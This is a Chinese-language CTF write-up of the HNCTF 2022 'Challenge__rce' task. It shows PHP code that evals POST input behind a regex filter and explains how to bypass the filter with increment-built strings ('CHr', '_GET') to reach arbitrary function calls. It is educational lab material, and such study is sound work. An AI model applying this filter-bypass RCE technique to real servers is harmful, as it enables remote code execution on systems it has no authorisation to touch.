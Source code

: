 [NSSCTF] WP 5
===

## [HNCTF 2022 Week1] Challenge__rce

### 题解

访问网站发现源码有个 hint 注释, 尝试 GET 传个 `hint` 进去, 出现 WAF 源码:

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
} 
```

看起来显然是一个无字符 RCE, 注意这段过滤中没有 `%`, `[]`, `+`, 考虑自增马, 注意有长度限制, 利用可以用数字, 稍微简化一下:

构造过程, 注意 php 中不能直接像 c 一样直接对 char 做加法, 但是可以做自增 `++` :

```php
<?php

$_=[].'_'; # 注意, 空数组拼字符串会触发 __toString 使得原变量变为字符串 'Array'
$__=$_[1]; # $__ = 'r'
$_ = $_[0];
$_++;
$_++;
$_1=$_; # $_1 = 'A' + 2 = 'C'
$_++;
$_++;
$_++;
$_++;
$_++;
$_2=$_; # $_2 = 'A' + 7 = 'H'

# 注意, php 中函数名不区分大小写
$_3=$_1.$_2.$__; # $_3 = 'C' . 'H' . 'r' = 'CHr'
$_='_'.$_3(71).$_3(69).$_3(84); # $_='_GET'
# $$_[1]($$_[2]);
# 这一段代码等于把执行点转移到了 GET 中, 其中 1 为函数名, 2 为参数
echo $_;
?>
```
